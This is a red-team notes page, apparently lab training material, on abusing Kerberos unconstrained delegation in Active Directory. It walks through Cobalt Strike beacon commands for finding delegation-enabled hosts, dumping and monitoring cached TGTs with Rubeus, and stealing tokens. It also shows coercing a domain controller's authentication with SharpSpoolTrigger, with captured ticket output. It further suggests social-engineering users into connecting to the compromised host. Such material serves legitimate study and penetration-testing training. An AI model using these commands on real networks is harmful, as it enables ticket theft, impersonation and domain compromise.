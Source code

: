 # Unconstrained Delegation

## Introduction

Delegation allows a user or computer to impersonate another account in order to access resources (such as backend database servers). Practical examples can be found [here](https://learn.microsoft.com/en-us/archive/blogs/autz\_auth\_stuff/kerberos-delegation).

Unconstrained delegation will cache the user's TGT if it interacts with the system. So if we compromise a machine with unconstrained delegation, we can extract any TGT from it's memory and use them to impersonate users.

* **Scope of Trust:** In unconstrained delegation, a service can impersonate any user and access any service on behalf of that user within the domain.&#x20;
* **Configuration:** Unconstrained delegation is enabled on the service account itself in Active Directory. Once enabled, there are no restrictions on which resources the service can access.
* **Usage:** This method is typically used in scenarios where the service requires extensive access across multiple services (Example: domain controller)

<mark style="color:yellow;">**Technique**</mark>: If we compromise a computer with unconstrained delegation, we can social engineer a user to interact with it and steal their TGT. We can also just wait for users and harvest TGT's! Interaction can be as simple as `dir \web\c$`

<mark style="color:red;">**Note**</mark>:   Domain Controllers are always permitted for unconstrained delegation.

## Enumerate computers with unconstrained delegation

```shell
beacon> execute-assembly C:\Tools\ADSearch.exe --search 
"(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" 
--attributes samaccountname,dnshostname
```

## Rubeus triage & monitor

Rubeus triage & monitor will show all tickets that are currently cached. It will show the users LUID. The faster way is just to use monitor.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe triage
```

```
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
```

## Rubeus Dump TGT

From the triage & createnetonly we can dump the TGT

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe dump /luid:<luid-from-triage> /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:DEV /username:cfoxy /password:Password123! /ticket:blah

[*] Showing process : False
[*] Username        : cfoxy
[*] Domain          : DEV
[*] Password        : Password123!
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1540
[+] Ticket successfully imported!
[+] LUID            : 0x3206fb
```

## Steal Token

We can steal use token with Cobalt Strike's steal\_token.

```
beacon> steal_token 1540

beacon> ls \\dc-2.rotta.lab\c$
```

## Harvest TGT by forcing authentication

We can obtain TGT's for computer accounts by forcing them to authenticate remotely to the unconstrained machine.

## Rubeus monitor

Rubeus' `monitor` command will drop into loop and continuously monitor for and extract new TGT as they get cached.  It's a superior strategy when compared to running triage manually because there's little chance of us not seeing or missing a ticket.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

[*] Action: TGT Monitoring
[*] Monitoring every 10 seconds for new TGTs
```

## SharpSpoolTrigger

Next, run SharpSpoolTrigger.

```
beacon> execute-assembly C:\Tools\SharpSpoolTrigger.exe dc-2.rotta.lab web.rotta.lab
```

Where:

* DC-2 is the "target".
* WEB is the "listener".

Rubeus will then capture the ticket.

```
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  dc-2$.rotta.lab
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFuj[...]lDLklP
```

To stop Rubeus, use the `jobs` and `jobkill` commands.\
